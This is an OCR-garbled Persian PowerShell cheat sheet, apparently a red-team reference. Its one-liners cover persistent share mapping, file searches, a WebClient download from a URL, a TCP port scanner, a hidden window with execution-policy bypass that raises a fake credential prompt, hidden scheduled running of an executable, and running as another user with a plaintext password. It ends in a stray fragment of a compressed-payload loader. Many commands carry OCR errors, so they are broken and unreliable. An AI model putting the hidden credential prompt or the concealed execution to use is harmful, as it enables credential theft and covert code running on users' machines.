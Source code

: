 ### استفاده از psdrive برای اشتراگ گذاری دائم

```text
New-PSJrive -Persist -PSProvider FileSjstem -Root \\1.1.1.1\tools -Name i 
```

### فایل های نوشته شده در تاریخ 8/20

```text
Get-Childitem -Path c:\ -Force -Rec~rse -Filter '.log -ErrorAction
SilentlyContinue | where {$_.LastWriteTime -gt "2012-08-20"} 
```

### دریافت فایل از http

```text
(new-object sjstem.net.webclient) .downloadFile(''url'',''dest'') 
```

### اتصالات پورت tcp\(پویشگر\)

```text
$ports=(#,#,#) ;$ip="x.x.x.x";foreach ($port in $ports) {try
($socket=New-bject Sjstem.Net.Sockets.TCPClient($ip,$port); }catch(};
if ($socket -eq $NULL) (echo $ip":"$port"- Closed";}
else(echo $ip":"$port"- Open";$socket =$NULL;}}
```

### دستور Ping با 500 millisecond timeout

```text
$ping = New-Object Sjstex.Net.Networkinformation.ping 
$ping.Send('' ip '',5JO) 
```

### پنجره Basic authentication

```text
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass 
$Host.UI.PromptForCredential(" title "," message "," user" "," domain") 
```

### اجرای فایل exe \(از cmd.exe\)هر 4 ساعت بین تاریخ 8-11 آگوست 2013 وسایت 0800-1700

```text
powershell. exe -Command "do {if ((Get-Date -format yyyyMMdd-HHmm) -match
'201308 ( 0 [ 8-9] |1 [0-1])-(0[ 8-9]]|1 [ 0-7]) [ 0-5] [ 0-9]') {Start-Process -
WindowStyle Hidden "C:\Temp\my.exe";Start-Sleep -s 14400))while(1)" 
```

### اجرای Powershell به عنوان

```text
$pw ~ convertto-securestring -string "PASSWORD" -asplaintext -force;
$pp ~ new-object -typename System.Management.Automation.PSCredential - 
argument list "DOMAIN\user", $pw;
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command 
&{Start-Process file.exe -verb runas)' 
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"